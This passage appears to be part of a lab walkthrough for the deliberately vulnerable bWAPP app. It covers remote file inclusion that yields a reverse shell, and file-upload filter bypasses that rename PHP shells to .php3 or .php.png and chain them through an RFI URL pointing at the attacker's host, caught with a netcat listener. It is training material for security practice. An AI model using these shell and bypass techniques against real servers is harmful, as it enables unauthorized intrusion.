 As you can see, we get a shell! Now you can enable **PHP** execution again with `sudo /usr/sbin/a2enmod php8.2` and restarting apache with `sudo /etc/init.d/apache2 restart` will make everything back to normality. 

![RFI Shell](rfi-shell.png)

What happens if we don't disable **PHP**? Well, long story short, the victim server will request the file `shell.php` but it will be executed in **OUR** server so we will get a reverse shell to our own machine! 

![RFI Auto Shell](rfi-auto-shell.png)

## Other Bugs

### File Upload

#### Low

Pretty easy as there is no restriction. We just need to start a listener with `sudo nc -nlvp 1234` and upload a **PHP** reverse shell. As soon as you visit the **URL** provided you'll trigger the shell.

![File Upload Shell](fu-shell.png)

#### Medium 

Now we start facing some restrictions. As we can see if we try to upload the same file with the `.php` extension the page will throw us an error: *Sorry, the file extension is not allowed. The following extensions are blocked: asp, aspx, dll, exe, jsp, php*. So now we know what extensions are illegal.

To by pass this restriction we only need to change the file extension from `.php` to `.php3`. This way we will be able to upload it and execute it as before.

#### High

I consider this level partially exploited as we need to use the **low security level of LFI** to be able to bypass the security and get a shell. First we have to change the file extension from `.php` to `.php.png`. This way we will be able to upload the file but we won't be able to execute ir clicking the link provided. So, copying the link address of the file and heading to the low level security LFI and changing the language file of the URL for our shell URL, would do the job.

`http://[YOUR KALI IP]/bWAPP/rlfi.php?language=http://[YOUR KALI IP]/bWAPP/images/shell.php.png&action=go`.

This is although a pretty real scenario. The majority of exploiting situations are a chain of vulnerabilities exploited that gradually allows you to make your way inside your taget.

